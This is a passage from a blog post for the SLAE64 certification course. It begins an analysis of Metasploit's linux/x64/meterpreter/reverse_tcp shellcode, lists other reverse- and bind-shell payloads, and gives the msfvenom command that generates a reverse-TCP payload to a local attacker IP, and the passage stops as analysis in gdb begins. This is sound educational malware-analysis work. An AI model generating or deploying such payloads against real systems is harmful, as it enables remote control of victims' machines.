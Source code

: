 Title: SLAE64 - Assignment 5.1
Date: 2022-06-25T08:00:24.000Z

<h2 id="disclaimer">Disclaimer</h2><p>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:</p><p><a href="https://www.pentesteracademy.com/course?id=7">https://www.pentesteracademy.com/course?id=7</a></p><p>Student ID: PA-30398</p><h2 id="analysis">Analysis</h2><p>For the fifth assignment, I decided to analyze the following shellcode samples:</p><table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>linux/x64/meterpreter/reverse_tcp</td>
<td>Inject the mettle server payload (staged). Connect back to the attacker</td>
</tr>
<tr>
<td>linux/x64/pingback_reverse_tcp</td>
<td>Connect back to attacker and report UUID (Linux x64)</td>
</tr>
<tr>
<td>linux/x64/shell_bind_ipv6_tcp</td>
<td>Listen for an IPv6 connection and spawn a command shell</td>
</tr>
</tbody>
</table>
<p>This post focuses on the first one, <code>linux/x64/meterpreter/reverse_tcp</code>.</p><p>Let's start from the very beginning i.e., generating the shellcode, which you can do by using the the <em>ruby</em> script <code>msfvenom</code> available by default on Kali Linux distributions.</p><p>Below is the command I ran to generate the shellcode:</p><pre><code class="language-bash">msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.170 LPORT=443 -f elf -o shellcode
# [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
# [-] No arch selected, selecting arch: x64 from the payload
# No encoder specified, outputting raw payload
# Payload size: 130 bytes
# Final size of elf file: 250 bytes
# Saved as: shellcode
</code></pre><p>As you may have noticed, I decided to use the format <code>elf</code> instead of <code>raw</code>.</p><p>This is due to the fact that by default shellcode can't be executed on the system, but it needs a specific file structure that the system can understand.</p><p>In this case, since the system is based on a Linux kernel, we can use the ELF format.</p><p>The resulting binary is a 64-bit one, hence it will run on x86-64 systems only:</p><pre><code class="language-bash">file ./shellcode
# ./shellcode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
</code></pre><p>Next, we can start the real analysis with <code>gdb</code>:</p><pre><code class="language-bash">gdb -q ./shellcode  